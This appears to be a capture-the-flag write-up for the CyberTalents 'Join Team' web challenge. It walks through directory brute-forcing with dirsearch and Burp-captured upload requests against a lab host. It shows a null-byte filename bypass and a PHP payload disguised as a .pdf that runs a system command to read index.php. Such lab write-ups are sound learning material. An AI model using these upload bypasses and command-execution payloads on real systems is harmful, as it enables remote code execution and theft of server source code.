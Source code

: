 # Solve join team
#### https://cybertalents.com/challenges/web/join-team

![alt text](images/image.png)
### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6m86dv92kb4zlgj6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*

### Analyze with burp
```http
POST /index.php?jobs HTTP/1.1
Host: wcamxwl32pue3e6m86dv92kb4zlgj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------231952965614347951952400619006
Content-Length: 227
Origin: http://wcamxwl32pue3e6m86dv92kb4zlgj6zqdkgxu639-web.cybertalentslabs.com
Connection: close
Referer: http://wcamxwl32pue3e6m86dv92kb4zlgj6zqdkgxu639-web.cybertalentslabs.com/index.php?jobs
Cookie: _ga_B38952S5RT=GS1.1.1718765785.1.1.1718765798.47.0.0; _ga=GA1.1.1474852010.1718765786; _clck=yv78z1%7C2%7Cfmr%7C0%7C1631; ajs_anonymous_id=79cb6015-fb56-43db-bbe9-121c0fe1885e; _fbp=fb.1.1718765789636.122478108392360263; _ga_S72LBY47R8=GS1.1.1718766980.1.1.1718767179.0.0.0
Upgrade-Insecure-Requests: 1

-----------------------------231952965614347951952400619006
Content-Disposition: form-data; name="cv"; filename="spider.json"
Content-Type: application/json


-----------------------------231952965614347951952400619006--
```
Only PDF Document Allowed

### Bypass file upload with null byte

```http
POST /index.php?jobs HTTP/1.1
Host: wcamxwl32pue3e6m86dv92kb4zlgj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------191470493019813618651901856128
Content-Length: 4485
Origin: http://wcamxwl32pue3e6m86dv92kb4zlgj6zqdkgxu639-web.cybertalentslabs.com
Connection: close
Referer: http://wcamxwl32pue3e6m86dv92kb4zlgj6zqdkgxu639-web.cybertalentslabs.com/index.php?jobs
Cookie: _ga_B38952S5RT=GS1.1.1718765785.1.1.1718765798.47.0.0; _ga=GA1.1.1474852010.1718765786; _clck=yv78z1%7C2%7Cfmr%7C0%7C1631; ajs_anonymous_id=79cb6015-fb56-43db-bbe9-121c0fe1885e; _fbp=fb.1.1718765789636.122478108392360263; _ga_S72LBY47R8=GS1.1.1718766980.1.1.1718767179.0.0.0
Upgrade-Insecure-Requests: 1

-----------------------------191470493019813618651901856128
Content-Disposition: form-data; name="cv"; filename="exploit.php%00.pdf"
Content-Type: application/pdf
```

Bypassed but we can't access 

### Bypass file with extension .pdf
It runs php code in file with `.pdf` extension 

Upload the a file to read the source code of `index.php`
```http
POST /index.php?jobs HTTP/1.1
Host: wcamxwl32pue3e6m86dv92kb4zlgj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------191470493019813618651901856128
Content-Length: 260
Origin: http://wcamxwl32pue3e6m86dv92kb4zlgj6zqdkgxu639-web.cybertalentslabs.com
Connection: close
Referer: http://wcamxwl32pue3e6m86dv92kb4zlgj6zqdkgxu639-web.cybertalentslabs.com/index.php?jobs
Cookie: _ga_B38952S5RT=GS1.1.1718765785.1.1.1718765798.47.0.0; _ga=GA1.1.1474852010.1718765786; _clck=yv78z1%7C2%7Cfmr%7C0%7C1631; ajs_anonymous_id=79cb6015-fb56-43db-bbe9-121c0fe1885e; _fbp=fb.1.1718765789636.122478108392360263; _ga_S72LBY47R8=GS1.1.1718766980.1.1.1718767179.0.0.0
Upgrade-Insecure-Requests: 1

-----------------------------191470493019813618651901856128
Content-Disposition: form-data; name="cv"; filename="index.pdf"
Content-Type: application/pdf

<?php
system ('cat index.php');
?>
-----------------------------191470493019813618651901856128--
```

>Find More on ==> github.com/MedhatHassan 
